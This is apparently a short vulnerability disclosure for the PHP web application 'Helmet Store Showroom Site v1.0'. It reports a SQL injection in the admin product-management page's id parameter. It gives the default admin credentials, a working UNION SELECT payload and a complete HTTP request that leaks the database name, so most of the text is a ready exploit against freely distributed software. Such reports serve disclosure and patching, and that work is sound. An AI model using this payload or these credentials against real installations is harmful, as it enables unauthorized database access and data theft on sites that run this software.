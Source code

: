 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/admin/?page=products/manage_product&id=

Vulnerability location: /hss/admin/?page=products/manage_product&id=,id

dbname =hss_db,length=6

[+] Payload: /hss/admin/?page=products/manage_product&id=-2%27%20union%20select%201,2,3,4,database(),6,7,8,9,10--+ // Leak place ---> id


```sql
GET /hss/admin/?page=products/manage_product&id=-2%27%20union%20select%201,2,3,4,database(),6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069713-d934fe7b-f887-43cb-9679-de30fa6d588f.png)
